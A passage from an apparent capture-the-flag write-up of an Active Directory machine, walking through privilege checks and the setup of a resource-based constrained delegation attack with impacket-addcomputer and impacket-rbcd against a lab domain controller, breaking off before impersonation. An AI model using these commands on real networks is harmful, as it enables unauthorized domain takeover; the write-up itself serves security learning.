 I look around the hard drive at the root folder, through both program files folders, etc, and the only thing non-standard is the share folder that had all of the files from the SMB share we downloaded earlier.

Checking `whoami /priv` shows an out of the ordinary privilage: SeMachineAccountPrivilege.

I check my machine quota limit, which shows 10, so with this and the SeMachineAccountPrivilege we should be able to use a resource based constrained delegation (RBCD) attack.

`Get-ADObject -Identity (Get-ADDomain).DistinguishedName -Properties ms-DS-MachineAccountQuota`

```
ms-ds-machineaccountquota
-------------------------
                       10
```

The first thing I do is create a new machine on the box using impacket-addcomputer:

`impacket-addcomputer -computer-name 'newcomp$' -computer-pass Password1 -dc-ip 10.129.191.83 support/support:<REDACTED>`

![](images2/support10.png)

After that I use impacket-rbcd to configure delegation:

`impacket-rbcd -delegate-to DC$ -delegate-from newcomp$ -dc-ip 10.129.191.83 -action write support/support:<REDACTED>`

![](images2/support11.png)

I check to see if the Administrator user is in the protected users group, which they're not. If they were we would not be able to impersonate them.

`net group "Protected Users"`

![](images2/support12.png)
